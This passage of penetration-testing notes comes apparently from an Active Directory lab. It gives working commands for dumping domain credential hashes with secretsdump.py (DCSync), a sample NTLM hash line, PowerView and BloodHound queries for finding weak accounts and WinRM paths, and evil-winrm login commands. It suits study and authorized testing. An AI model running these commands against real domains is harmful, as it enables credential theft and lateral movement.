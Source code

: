 secretsdump.py is part of Impacket
```sh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

We could use the `-just-dc-ntlm` flag if we only want NTLM hashes, or specify `-just-dc-user <USERNAME>` to only extract data for a specific user  

If we use the `just-dc` option, there will be three files created: one with NTLM hashes, one with Kerberos keys, and one with cleartext passwords for any accounts set with `reversible encryption` enabled  

The format of the secretsdump output is a little weird, for example:  
```
inlanefreight.local\khartsfield:1138:aad3b435b51404eeaad3b435b51404ee:4bb3b317845f0954200a6b0acc9b9f9a:::
```
In this case, 4bb3b317845f0954200a6b0acc9b9f9a is the NTLM hash

### Understanding reversible encryption option

When this option is set on a user account, it does not mean that the password is stored in cleartext  

Instead, they are stored using RC4 encryption. The key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent  

Finding any users with reversible encryption set with power view:
```Powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```

<br />

## WinRM

We can use this custom Cypher query in BloodHound to hunt for users with WinRM access. This can be done by pasting this query into the Raw Query box at the bottom of the screen:  
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

WinRM from Linux:
```sh
# Install evil-winrm:
sudo gem install evil-winrm

evil-winrm -i 10.129.201.234 -u forend
```

<br />

## SQL Server Admin
